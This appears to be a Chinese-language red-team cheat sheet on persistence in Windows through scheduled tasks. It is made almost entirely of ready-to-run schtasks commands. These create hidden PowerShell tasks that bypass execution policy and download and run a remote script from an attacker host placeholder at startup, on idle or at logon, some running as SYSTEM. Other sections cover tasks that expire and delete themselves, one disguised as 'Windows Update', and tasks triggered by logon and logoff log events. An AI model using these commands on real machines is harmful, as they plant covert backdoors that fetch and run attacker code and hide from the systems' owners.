 ### 常用上线命令

```cmd
#(X64) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onstart /ru System
 
#(X64) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onidle /i 30
 
#(X86) - On User Login
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onlogon /ru System
  
#(X86) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onstart /ru System

#(X86) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onidle /i 30
```

### 到期启动并删除

有效负载的执行也可以在特定时间发生，并且可以具有到期日期和自删除功能

```cmd
# Usage
# /RU %USERNAME%：可选项
schtasks /CREATE /TN <Task Name> /TR "cmd.exe /c start /b <path to executable>" /SC minute /MO 1 /ED <Start Time:yyyy/mm/dd> /ET <End Time:hh:mm> /Z /IT /RU %USERNAME%

schtasks /CREATE /TN "A" /TR "cmd.exe /c start /b <path to executable>" /SC minute /MO 1 /ED 2023/08/29 /ET 17:27 /Z /IT

schtasks /CREATE /TN "Windows Update" /TR "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /SC minute /MO 1 /ED 04/11/2019 /ET 06:53 /Z /IT
```

### 日志触发计划任务

如果为目标事件启用了事件日志记录，则可以在特定 Windows 事件上触发任务

```cmd
# 登录日志ID：4624
wevtutil qe Security /f:text /c:1 /q:"Event[System[(EventID=4624)]]

# 注销日志ID：4634
wevtutil qe Security /f:text /c:1 /q:"Event[System[(EventID=4634)]]

# Usage
schtasks /Create /TN <Task Name> /TR "cmd.exe /c start /b <path to executable>" /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"

schtasks /Create /TN OnLogOff /TR "cmd.exe /c start /b <path to executable>" /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"

schtasks /Query /tn OnLogOff /fo List /v
```